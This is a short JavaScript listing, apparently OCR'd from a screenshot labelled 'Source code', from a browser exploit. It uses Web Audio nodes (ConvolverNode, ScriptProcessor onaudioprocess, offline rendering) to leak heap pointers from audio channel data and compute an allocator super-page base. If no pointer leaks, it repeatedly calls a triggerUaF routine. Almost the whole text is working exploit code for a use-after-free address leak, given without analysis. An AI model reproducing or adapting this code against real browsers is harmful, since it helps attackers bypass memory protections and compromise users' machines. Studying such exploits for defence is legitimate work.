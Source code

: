 	let finished = false;
 
	scriptNode.onaudioprocess = function(evt) {
    		let channelDataArray = new Uint32Array(evt.inputBuffer.getChannelData(0).buffer);
 
    		for (let j = 0; j < channelDataArray.length; j++) {
        		if (j + 1 < channelDataArray.length && channelDataArray[j] != 0 && channelDataArray[j + 1] != 0) {
            			let u64Array = new BigUint64Array(1);
            			let u32Array = new Uint32Array(u64Array.buffer);
            			u32Array[0] = channelDataArray[j + 0];
            			u32Array[1] = channelDataArray[j + 1];
 
            			let leakedAddr = byteSwapBigInt(u64Array[0]);
            			if (leakedAddr >> BigInt(32) > BigInt(0x8000))
                			leakedAddr -= BigInt(0x800000000000);
             			let superPageBase = getSuperPageBase(leakedAddr);
 
	             		if (superPageBase > BigInt(0xFFFFFFFF) && superPageBase < BigInt(0xFFFFFFFFFFFF)) {
                			finished = true;
                			evt = null;
 
                			bufferSource.disconnect();
                			scriptNode.disconnect();
                			convolver.disconnect();
 
                			setTimeout(function() {
                     			doneCb(leakedAddr);
                			}, 1);
 
                			return;
            			}
        		}
    		}
	};
 
	audioCtx.startRendering().then(function(buffer) {
    		buffer = null;
 
    		if (!finished) {
        	 	finished = true;
       	  	triggerUaF(doneCb);
    		}
	});
 
	while (!finished) {
    		convolver.buffer = null;
    		convolver.buffer = channelBuffer;
    		await later(100); // wait 100 millseconds
	}
};




123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172
